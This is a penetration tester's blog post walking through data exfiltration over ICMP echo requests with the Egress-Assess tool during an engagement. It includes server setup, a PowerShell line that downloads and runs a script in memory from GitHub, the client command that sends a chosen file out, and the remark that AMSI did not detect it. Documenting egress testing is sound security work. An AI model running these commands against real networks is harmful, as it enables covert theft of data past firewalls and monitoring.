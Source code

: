```yaml
---
title:  "ICMP Tunneling"
date:   2021-10-10 19:12:00 +0000
categories: [techniques]
tags: [windows, ICMP, Data Extraction]
---
```


I recently had a situation during an engagement where i needed to demonstrate that data could be extracted from the organisation. I wanted to exfil data without going over the internet for security as well as for ease of use duing the engagement and speed.
The VPN when connected, and as expected, didn't allow local access as all routing went through the established tunnel first. However when the tunnel was disconnected the firewall would block all TCP and UDP access but would allow ICMP traffic to local subnets.
This then led me to look into ICMP tunneling. I found various ways of gaining a reverse shell however data exfiltration was more tricky - this is where Egress Assess comes in.   
From the Github Page [here](https://github.com/FortyNorthSecurity/Egress-Assess) - "Egress-Assess is a tool used to test egress data detection capabilities."

Egress-Assess has many use cases for confirming if data can be extracted out of the network including HTTP, SMB, ICMP and more. It also has PowerShell and Python implementations for both server and client. This is good for us as its unliekly that we normally have PowerShell access on Windows based systems.
Another great feature is that the client doesnt require local administrative privileges to run.
During testing it was also noted that as from the time of testing amsi didnt detect the client software as malicous or blocked the traffic as suspicous.

The setup uses a tradtional client / Server design. The server does require local admin rights. My setup was a Debian 10 Box with a Windows 10 client.

* Server (Debian) - 192.168.1.50
* Client (Win 10) - 192.168.1.239


Againg from the Github Page, ICMP - The data is broken up into bytes and base64 encoded and sent over the wire in an ICMP Type 8 ECHO request. the data is placed inside the data field of the packet. The ECHO requests are continuously made to the EgressAsess Server which receives the ICMP request and gathers the data and decodes it.

To start firstly, confirm that you can send and receive ICMP echo requests and Responses bi-directionally.

Once confirmed, on the server, first clone down the repository.

{% include codeHeader.html %}
```
git clone https://github.com/FortyNorthSecurity/Egress-Assess.git
```

Next run the setup.sh from within the setup folder to install the necessasary files.
Fix any errors if you get any before continuing.

```
./setup/.setup.sh
```

Next start the server with the ICMP fetaures enabled:

```
python Egress-Assess.py --server icmp --ip 192.168.1.50

```
If the server has started correctly you should see the following:
![img-description](/images/icmp-4.JPG)
_ICMP Server Started & waiting for connections_

Next you can either download the file onto the client, or run it in memeory directly.

```
IEX (New-Object Net.Webclient).DownloadString(‘https://raw.githubusercontent.com/ChrisTruncer/Egress-Assess/master/Invoke-EgressAssess.ps1‘)
```


Next, you have two main options. You either user the built-in audit tools that will create dummy data to mimic sensitive information such as Social Security Numbers / Credit Cards, OR you can specify specfic custom files.

I decided to create my own very simple file to understand how it was being tranferred. I did this by creating a file with some basic text inside on the client.

```
echo "Super Secret Info to Extract" > SuperSecretData.txt
```

We specify the File we want using the "-DataType" argument. ( You could also put "-DataType cc" for CreditCard.

![img-description](/images/icmp-9.JPG)
_Sending a file though an ICMP Packet_


```
Invoke-EgressAssess -client icmp -ip 192.168.1.50 -Datatype 'C:\Videos\SuperSecretData.txt' -Verbose
```

By using the "-Verbose" argument we can see that the connection was sucessful and that the client has indicated that the file was sucessfully sent.

On the server we can see a message confirming that the file has been recieved as expected.

![img-description](/images/icmp-10.JPG)
_File Received on Server_

![img-description](/images/icmp-11.JPG)
_File Received on Server_


To confirm how this worked, we can see in Wireshark that the data is indeed base64 encoded.
![img-description](/images/icmp-12.JPG)
_Wireshark capture of base64 encoded data in an ICMP Packet_
![img-description](/images/icmp-13.JPG)
_Wireshark capture of base64 encoded data in an ICMP Packet_

Therefore if we decode the base 64 we can see our message as expected and confirm how the data was transferred.
![img-description](/images/icmp-14.JPG)


